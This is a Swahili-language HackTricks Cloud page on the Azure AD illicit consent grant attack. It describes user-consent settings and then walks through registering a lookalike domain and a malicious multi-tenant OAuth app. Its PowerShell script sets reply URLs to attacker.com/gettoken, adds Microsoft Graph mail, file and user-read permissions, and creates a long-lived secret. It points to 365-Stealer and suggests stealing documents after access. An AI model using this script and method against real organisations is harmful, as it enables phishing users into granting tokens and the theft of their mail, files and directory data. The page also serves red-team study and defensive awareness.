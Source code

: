# Az - Ruhusa ya Siri

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Udukuzi wa Programu ya OAuth

**Programu za Azure** hufanya ombi la ruhusa ya kupata **data ya mtumiaji** (habari za msingi, lakini pia kupata nyaraka, kutuma barua pepe...).\
Ikiwa **kuruhusiwa**, mtumiaji wa kawaida anaweza kutoa idhini tu kwa **"Ruhusa za Athari Ndogo"**. Katika **hali zingine zote**, **idhini ya msimamizi inahitajika**.\
`GA`, `Msimamizi wa Programu`, `Msimamizi wa Programu ya Wingu` na jukumu la desturi linalojumuisha `ruhusa ya kutoa ruhusa kwa programu` inaweza kutoa idhini kwa kiwango cha mpangaji.

Ruhusa zinazohitaji **idhini ya msimamizi** tu zinachukuliwa kuwa na **athari ndogo**. Hizi ni ruhusa zinazohitajika kwa **kuingia msingi ni openid, wasifu, barua pepe, User.Read na offline\_access**. Ikiwa **shirika** **inaruhusu** idhini ya mtumiaji kwa **programu zote**, mfanyakazi anaweza kutoa idhini kwa programu ili **kusoma yaliyotajwa hapo juu kutoka kwenye wasifu wao**.

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Hivyo, muhusika anaweza kuandaa **Programu mbaya** na kwa **udukuzi**, kufanya mtumiaji **kubali Programu na kuiba data yake**.

### Angalia ikiwa watumiaji wameruhusiwa kutoa idhini

Amri ifuatayo ya PowerShell hutumiwa kuangalia usanidi wa idhini kwa watumiaji katika Azure Active Directory (Azure AD) kuhusiana na uwezo wao wa kutoa idhini kwa programu:
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
* **Zima idhini ya mtumiaji**: Mipangilio hii inazuia watumiaji kutoa idhini kwa programu. Hakuna idhini ya mtumiaji kwa programu inaruhusiwa.
* **Watumiaji wanaweza kutoa idhini kwa programu kutoka kwa wachapishaji waliothibitishwa au shirika lako, lakini tu kwa idhini unazochagua**: Mipangilio hii inaruhusu watumiaji wote kutoa idhini kwa programu zilizochapishwa na wachapishaji waliothibitishwa na programu zilizosajiliwa katika mpangilio wako mwenyewe. Inaongeza safu ya udhibiti kwa kuruhusu idhini kwa idhini maalum tu.
* **Watumiaji wanaweza kutoa idhini kwa programu zote**: Mipangilio hii ni ya kukubali zaidi na inaruhusu watumiaji wote kutoa idhini kwa idhini yoyote kwa programu, mradi idhini hizo hazihitaji idhini ya kiutawala.
* **Sera ya idhini ya programu ya kawaida**: Mipangilio hii inaonyesha kuwa sera ya kawaida imewekwa, ambayo inaweza kubadilishwa kulingana na mahitaji maalum ya shirika na inaweza kuhusisha mchanganyiko wa vizuizi kulingana na mchapishaji wa programu, idhini ambazo programu inaomba, na mambo mengine.


## **Kuelewa Shambulio la Kuidhinisha Idhini Haramu**

Katika shambulio la kuidhinisha idhini haramu, wadukuzi huwadanganya watumiaji wa mwisho kutoa idhini kwa programu mbaya iliyosajiliwa na Azure. Hii hufanywa kwa kufanya programu ionekane halali, kuongoza waathiriwa kubofya kitufe cha "Kubali" bila kujua. Kama matokeo, Azure AD hutoa token kwa tovuti ya muhusika, kuwaruhusu kupata na kubadilisha data ya muathiriwa, kama vile kusoma au kutuma barua pepe na kupata faili, bila kuhitaji akaunti ya shirika.

## **Muhtasari wa Mchakato wa Shambulio**

Shambulio hili linajumuisha hatua kadhaa zikilenga kampuni ya jumla. Hivi ndivyo linavyoweza kufanyika:

1. **Usajili wa Kikoa na Kuhifadhi Programu**: Muhusika anasajili kikoa kinachofanana na tovuti ya kuaminika, kwa mfano, "safedomainlogin.com". Chini ya kikoa hiki, anajenga subdomain (k.m., "companyname.safedomainlogin.com") kuhifadhi programu iliyoundwa kukamata nambari za idhini na kuomba viambatisho vya ufikiaji.

2. **Usajili wa Programu katika Azure AD**: Muhusika kisha anasajili Programu ya Wapangaji Wengi katika Azure AD yao, ikiiita kwa jina la kampuni ya lengo ili ionekane halali. Wanaweza kusanidi URL ya Kuelekeza ya programu kuashiria kwenye subdomain inayohifadhi programu mbaya.

3. **Kuweka Idhini**: Muhusika anaweka programu na idhini mbalimbali za API (k.m., `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). Idhini hizi, mara zikiruhusiwa na mtumiaji, huwaruhusu wadukuzi kuchukua taarifa nyeti kwa niaba ya mtumiaji.

4. **Kusambaza Viungo vya Madhara**: Muhusika anabuni kiungo kinachojumuisha kitambulisho cha mteja wa programu mbaya na kushiriki na watumiaji walengwa, kuwadanganya kutoa idhini.

## **Kutumia Zana kwa Shambulio**

Shambulio linaweza kurahisishwa kwa kutumia zana kama [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer).

### Maandalizi Kabla ya Shambulio:
Ikiwa muhusika ana kiwango fulani cha ufikiaji kwa mtumiaji katika shirika la muathiriwa, wanaweza kuangalia ikiwa sera ya shirika inaruhusu mtumiaji kukubali programu:
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Password!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("generic@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# Check if "ManagePermissionGrantsForSelf.microsoft-user-default-legacy" is present, indicating permission to accept apps.
```
Kwa kutekeleza shambulio, mshambuliaji atahitaji kuunda **App mpya katika Azure Tenant yao** (katika Usajili wa App), iliyojengwa na ruhusa:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All` iko ndani ya `Microsoft Graph` katika `Ruhusa zilizopewa Delegated`. (Ruhusa za Maombi zitahitaji idhini ya ziada).

* `User.ReadBasic.All` ni ruhusa itakayokuwezesha **kusoma habari za watumiaji wote** katika shirika ikiwa itapewa.
* Kumbuka kuwa tu `GA`, `Msimamizi wa Maombi`, `Msimamizi wa Programu ya Wingu` na jukumu la desturi linalojumuisha `ruhusa ya kutoa ruhusa kwa maombi` ndio wanaweza kutoa idhini kwa kiwango cha mpangaji. Kwa hivyo, unapaswa **kuwinda mtumiaji mwenye moja ya majukumu hayo** ikiwa unataka yeye apitishe **App inayohitaji idhini ya msimamizi**.

Pia unaweza kuunda App kupitia cli na:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

Angalia [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) kujifunza jinsi ya kuiboresha.

{% hint style="warning" %}
Tafadhali elewa kuwa **tokeni ya ufikiaji** iliyopatikana itakuwa kwa **mwisho wa grafu** na mamlaka: `User.Read` na `User.ReadBasic.All` (ruhusa zilizoombwa). Hautaweza kufanya vitendo vingine (lakini hizi ni za kutosha kudownload **taarifa kuhusu watumiaji wote** katika shirika).
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

Unaweza pia kutumia chombo hiki kufanya shambulio hili.

## Baada ya Kuingia

Baada ya kupata ufikiaji wa mtumiaji unaweza kufanya mambo kama kuiba nyaraka nyeti na hata kupakia nyaraka zilizoharibiwa nyuma.

## Marejeo

* [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
